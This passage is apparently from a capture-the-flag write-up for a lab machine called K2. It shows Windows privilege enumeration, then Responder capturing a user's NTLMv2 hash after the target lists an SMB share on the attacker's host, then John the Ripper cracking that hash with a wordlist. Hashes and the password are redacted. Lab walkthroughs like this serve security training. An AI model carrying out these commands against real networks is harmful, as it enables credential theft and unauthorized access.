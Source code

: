 ```bash
NT AUTHORITY\Authenticated Users            Well-known group S-•-•-••                                     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization              Well-known group S-•-•-••                                     Mandatory group, Enabled by default, Enabled group             
LOCAL                                       Well-known group S-•-•-•                                      Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity  Well-known group S-•-••-•                                     Mandatory group, Enabled by default, Enabled group             
K2\IT Director                              Alias            S-•-•-••-••••••••••-••••••••••-••••••••-•••• Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\Medium Plus Mandatory Level Label            S-•-••-••••                         
```

```bash
PS C:\Windows\system32> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\Windows\system32> 
```

<br>
<br>
<br>

<p align="center">Set up a Responder to capture o.armstrong´s hash.</p>

```bash
:~/K2# sudo responder -I ens5
```

<p align="center">Interacted with Attack VM.</p>

```bash
PS C:\Windows\system32> dir \\xx.xxx.xxx.xxx\test\
```

<p align="center">Captured Target VM interaction and o.armstrong´s hash.</p>

```bash
:~/K2# sudo responder -I ens5
...
[SMB] NTLMv2-SSP Client   : xx.xxx.xxx.xx
[SMB] NTLMv2-SSP Username : K2\o.armstrong
[SMB] NTLMv2-SSP Hash     : o.armstrong::K2:...
```

<p align="center">Obtained o.armstrong´s password.</p>

```bash
:~/K2# john Hash --wordlist=/usr/share/wordlists/rockyou.txt
...
⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃      (o.armstrong)
```
